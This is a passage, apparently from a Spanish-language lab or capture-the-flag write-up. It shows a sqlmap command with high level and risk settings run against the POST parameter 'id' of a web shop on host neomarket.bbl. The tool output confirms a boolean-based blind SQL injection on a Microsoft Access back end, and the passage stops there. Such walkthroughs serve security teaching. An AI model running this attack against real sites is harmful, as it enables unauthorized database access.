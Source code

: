 Ahora ejecutaremos el siguiente comando:

```shell
sqlmap -r request.txt -p "id" --dbs --level=5 --risk=3
```

Info:

```
        ___
       __H__                                                                                                                                                 
 ___ ___[)]_____ ___ ___  {1.8.11#stable}                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                    
|___|_  [)]_|_|_|__,|  _|                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:01:42 /2025-03-21/

[09:01:42] [INFO] parsing HTTP request from 'request.txt'
[09:01:42] [INFO] testing connection to the target URL
got a 302 redirect to 'http://neomarket.bbl/compras.php'. Do you want to follow? [Y/n] 

redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] n
[09:01:43] [INFO] checking if the target is protected by some kind of WAF/IPS
[09:01:43] [INFO] testing if the target URL content is stable
[09:01:43] [WARNING] heuristic (basic) test shows that POST parameter 'id' might not be injectable
[09:01:43] [INFO] testing for SQL injection on POST parameter 'id'
[09:01:43] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[09:01:44] [INFO] POST parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[09:01:44] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'Microsoft Access' 
it looks like the back-end DBMS is 'Microsoft Access'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 

[09:01:46] [INFO] testing 'Generic inline queries'
[09:01:46] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[09:01:46] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[09:01:46] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[09:01:46] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[09:01:46] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[09:01:46] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[09:01:46] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[09:01:47] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[09:01:47] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[09:01:47] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[09:01:47] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[09:01:47] [INFO] checking if the injection point on POST parameter 'id' is a false positive
POST parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 

sqlmap identified the following injection point(s) with a total of 268 HTTP(s) requests:
---
Parameter: id (POST)
    Type: boolean-based blind
```